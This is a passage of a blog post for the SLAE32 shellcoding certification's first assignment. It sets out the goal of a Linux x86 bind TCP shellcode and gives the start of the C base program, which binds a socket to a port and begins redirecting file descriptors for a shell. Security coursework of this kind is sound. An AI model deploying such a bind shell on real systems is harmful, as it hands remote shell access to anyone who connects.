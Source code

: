 ```yaml
---
layout: single
title: 'SLAE32 - Assignment #1 - Bind TCP Shell'
date: 2019-05-13
classes: wide
comments: false
header:
  teaser: /assets/images/SLAE32/SLAE32.png
tags:
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Bind TCP Shellcode 
---
```



<img style="border:none;" src="{{ site.baseurl }}/assets/images/SLAE32/SLAE32.png"/>
<h2><span style="color:#339966;"><strong>Student ID : SLAE &nbsp;- 1314</strong></span></h2>
<p><span style="color:#339966;"><strong>Assignment 1:</strong></span></p>
<p style="text-align:justify;">The goal of this assignment is to create a Shell_Bind_TCP shellcode that does the following
</p>

- **Binds to a port**
- **Executes Shell on incoming connection**

**Also the port number should be easily configurable**

> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert&nbsp;certification

> **The code and scripts for this assignment can be found on** &nbsp;**[github](https://github.com/xvass/SLAE/tree/master/Assignment1)**

> All the development and tests have been implemented in the following architecture

> **Linux kali 5.4.0-kali2-686-pae #1 SMP Debian 5.4.8-1kali1 (2020-01-06) i686 GNU/Linux&nbsp;**

<p style="text-align:justify;">
For this assignment the following C program will be used as a base program in order to create our shellcode
</p>

```c
#include <sys/socket.h> 
#include <sys/types.h>
#include <netinet/in.h>
#include <string.h>
#include <stdio.h>

#define PORT 1234

int main()
{       
        int resfd, sockfd;
        struct sockaddr_in server;
        sockfd = socket(AF_INET, SOCK_STREAM, 0);
        server.sin_family = AF_INET;
        server.sin_port = htons(PORT); // convert into network byte order
        server.sin_addr.s_addr = INADDR_ANY; // 0.0.0.0
        bind(sockfd, (struct sockaddr *) &server, sizeof(server));              
        listen(sockfd, 0) ;        
        resfd = accept(sockfd, NULL, NULL);           
        dup2(resfd, 2);
```